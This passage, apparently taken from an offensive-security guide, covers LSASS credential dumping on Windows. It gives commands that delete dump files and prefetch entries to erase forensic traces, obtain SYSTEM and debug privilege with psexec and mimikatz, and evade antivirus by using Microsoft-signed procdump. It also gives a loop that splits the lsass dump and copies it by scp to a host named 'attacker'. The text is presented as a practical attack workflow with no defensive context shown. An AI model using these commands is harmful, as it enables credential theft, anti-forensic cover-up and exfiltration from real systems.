 #### Cleanup
```cmd
# Remove dump files
del C:\lsass.dmp
del C:\temp\lsass.dmp

# Clear prefetch
del C:\Windows\Prefetch\RUNDLL32.EXE-*
del C:\Windows\Prefetch\PROCDUMP*.pf
```

### Common Issues and Solutions

#### Access Denied
```bash
# Ensure admin privileges
whoami /priv | findstr SeDebugPrivilege

# Run as SYSTEM
psexec.exe -i -s cmd.exe

# Enable debug privilege
mimikatz.exe
privilege::debug
```

#### Antivirus Detection
```bash
# Use legitimate Microsoft tools
procdump64.exe (signed by Microsoft)

# Alternative methods
- Task Manager (GUI)
- Process Explorer
- WinDbg
- Visual Studio diagnostics
```

#### Large Dump Files
```bash
# Compress before transfer
7z a lsass.7z lsass.dmp

# Split large files
split -b 50M lsass.dmp lsass_part_

# Transfer in chunks
for file in lsass_part_*; do scp $file user@attacker:/tmp/; done
```

### Practical LSASS Attack Workflow
